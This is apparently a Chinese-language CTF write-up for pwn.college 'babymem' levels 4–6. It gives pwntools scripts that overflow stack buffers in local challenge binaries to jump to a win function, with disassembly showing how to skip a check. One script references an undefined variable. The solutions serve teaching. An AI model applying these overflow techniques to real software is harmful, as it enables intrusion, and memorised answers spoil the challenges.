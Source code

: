 ```python
from pwn import *

elf = ELF("/challenge/babymem_level4.1")
context.arch = 'amd64'
p = process("/challenge/babymem_level4.1")

p.sendline("-2")

buffer_size = 0x70
padding_rbp_size = 8  # rbp
win_func_address = p64(0x401fd2)
payload = b'A'*buffer_size + b'B'* padding_size + win_func_address
p.sendline(payload)

p.interactive()
```

## level 5

这一关在输入的地方，已经限制为无符号整数无法溢出。

但是在计算总大小的时候，两个32位的`usigned int`类型的整数相乘得到一个64位的整数。这个时候是可以溢出的。

### 5.0

```python
from pwn import *
elf = ELF("/challenge/babymem_level5.1")
context.arch = 'amd64'

p = process("/challenge/babymem_level5.1")
p.sendline("65536")
p.sendline("65536")

buffer_size = 0x48
win_func_address = p64(0x4018a4) # 地址查一下
payload = buffer_size * b'A' + win_func_address

p.sendline(payload)
p.interactive()
```

## level 6

这一关将校验的函数放在了win函数里，反而更方便了。因为覆盖返回的地址可以是任意地址，只需要跳过win函数的校验部分即可。

题目中说是要用objdump来分析，我直接用ida反汇编了。

```asm
.text:0000000000401C52 55                            push    rbp
.text:0000000000401C53 48 89 E5                      mov     rbp, rsp
.text:0000000000401C56 48 83 EC 10                   sub     rsp, 10h
.text:0000000000401C5A 89 7D FC                      mov     [rbp+var_4], edi
.text:0000000000401C5D 81 7D FC 37 13 00 00          cmp     [rbp+var_4], 1337h
.text:0000000000401C64 0F 85 F2 00 00 00             jnz     loc_401D5C
.text:0000000000401C64
直接跳转到这里就可以了-->.text:0000000000401C6A 48 8D 3D 7F 14 00 00          lea     rdi, aYouWinHereIsYo            ; "You win! Here is your flag:"
.text:0000000000401C71 E8 AA F4 FF FF                call    _puts
.text:0000000000401C71
```
